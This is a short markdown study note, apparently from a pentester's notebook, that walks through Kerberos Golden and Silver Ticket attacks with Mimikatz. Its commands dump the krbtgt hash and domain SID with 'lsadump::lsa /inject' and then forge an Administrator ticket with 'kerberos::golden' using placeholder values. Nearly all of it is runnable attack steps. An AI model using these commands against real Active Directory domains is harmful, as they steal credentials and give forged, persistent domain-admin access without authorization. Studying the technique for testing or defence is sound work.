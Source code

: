 # Golden/Silver Ticket attack

In order to create a golden ticket, we need the KRBTGT = service account that create TGT with KDC  
In order to create a silver ticket, we only need any accessible account that can log into the desired service

# Golden Ticket
## Dump krbtgt hash w/ Mimikatz
Starts mimikatz : 
```cmd
privilege::debug 
```
Ensure to have this output : `[privilege '20' ok]` 

```cmd
lsadump::lsa /inject /name:krbtgt 
```

- This will dump the hash as well as the security identifier needed to create a Golden Ticket. 
- To create a silver ticket you need to change the /name value to the service you want.

The output will be useful for the next step :
![[mimikatz_lsadump.png]]


## Generate the ticket
```cmd
Kerberos::golden /user:Administrator /domain:DOMAIN_NAME /sid:DOMAIN_SID /krbtgt:KRBTGT_NTLM_HASH /id:500
```

- Administrator : The username
- domain : The domain controller name
- SID : the second part of the first line from the output
- krbtgt : the primary NTLM hash
- id : 500 -> idk what is that

## Use the ticket
```cmd 
misc::cmd
```